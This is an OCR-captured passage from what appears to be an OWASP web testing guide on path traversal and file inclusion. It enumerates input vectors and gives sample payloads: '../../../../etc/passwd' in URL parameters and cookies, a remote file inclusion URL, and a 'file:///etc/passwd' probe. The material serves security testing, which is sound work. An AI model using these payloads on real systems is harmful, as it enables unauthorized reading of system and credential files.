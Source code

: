 - (**a**) **Input Vectors Enumeration** (a systematic evaluation of each input vector)
- (**b**) **Testing Techniques** (a methodical evaluation of each attack technique used by an attacker to exploit the vulnerability)

## How to Test

### Black-Box Testing

#### Input Vectors Enumeration

In order to determine which part of the application is vulnerable to input validation bypassing, the tester needs to enumerate all parts of the application that accept content from the user. This also includes HTTP GET and POST queries and common options like file uploads and HTML forms.

Here are some examples of the checks to be performed at this stage:

- Are there request parameters which could be used for file-related operations?
- Are there unusual file extensions?
- Are there interesting variable names?
  - `http://example.com/getUserProfile.jsp?item=ikki.html`
  - `http://example.com/index.php?file=content`
  - `http://example.com/main.cgi?home=index.htm`
- Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
  - `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
  - `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Testing Techniques

The next stage of testing is analyzing the input validation functions present in the web application. Using the previous example, the dynamic page called *getUserProfile.jsp* loads static information from a file and shows the content to users. An attacker could insert the malicious string “*../../../../etc/passwd*” to include the password hash file of a Linux/UNIX system. Obviously, this kind of attack is possible only if the validation checkpoint fails; according to the file system privileges, the web application itself must be able to read the file.

To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

For the cookies example:

`Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`

It's also possible to include files and scripts located on external website.

`http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

If protocols are accepted as arguments, as in the above example, it's also possible to probe the local filesystem this way.

`http://example.com/index.php?file=file:///etc/passwd`

If protocols are accepted as arguments, as in the above examples, it's also possible to probe the local services and nearby services.
